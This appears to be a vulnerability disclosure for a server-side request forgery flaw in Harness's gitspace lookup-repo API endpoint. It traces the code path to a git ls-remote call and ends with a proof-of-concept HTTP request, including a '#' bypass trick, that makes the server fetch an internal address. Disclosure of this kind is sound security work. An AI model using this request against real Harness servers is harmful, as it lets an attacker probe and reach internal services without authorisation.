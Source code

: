 # Vendor

harness

# Product

harness

# version

v2025.1000.4050

# Download 

https://github.com/harness/harness

# Vulnerability

SSRF

# Description

The root cause is that the back-end code receives a user-controllable URL parameter and, without performing strict security validation, directly uses this URL to initiate a network request on behalf of the server itself.

# Analysis

Endpoint: `POST /api/v1/gitspaces/lookup-repo`

Vulnerable Parameter: The `url` field in the JSON request body.

Code Path:

  The `LookupRepo` function in `app/api/controller/gitspace/lookup_repo.go` receives the user-provided `url`.

  It calls `sanitizeLookupRepoInput` which performs basic URL parsing and scheme validation (ensuring `http` or `https` is present). However, this sanitization is insufficient to prevent SSRF or command injection.

  The `url` is then passed to `c.scm.CheckValidCodeRepo` in `app/gitspace/scm/scm.go`.

  `CheckValidCodeRepo` calls `s.detectBranch`, which in turn calls `detectDefaultGitBranch`.

  The `detectDefaultGitBranch` function constructs and executes a `git ls-remote` command, passing the user-controlled `repoURL` (which is the `url` from the request) directly as an argument:

```
    cmd := command.New("ls-remote",
        command.WithFlag("--symref"),
        command.WithFlag("-q"),
        command.WithArg(gitRepoDir), // gitRepoDir is the user-provided URL
        command.WithArg("HEAD"),
    )
    if err := cmd.Run(ctx, command.WithStdout(output)); err != nil {
        // ...
    }
```


Vulnerability Verification:

We need to add '#' after the internal address we want to request to avoid its own parameters affecting our request

<img width="979" height="376" alt="image" src="https://github.com/user-attachments/assets/a369a8a0-c989-4104-8710-8a23397639db" />


# POC
```
POST /api/v1/gitspaces/lookup-repo HTTP/1.1
Host: 192.168.43.165:3000
Cookie: token=XXX
Connection: close
Content-Length: 68

{"space_ref":"a","url":"http://192.168.43.165:9877/123.php?id=111#"}

```





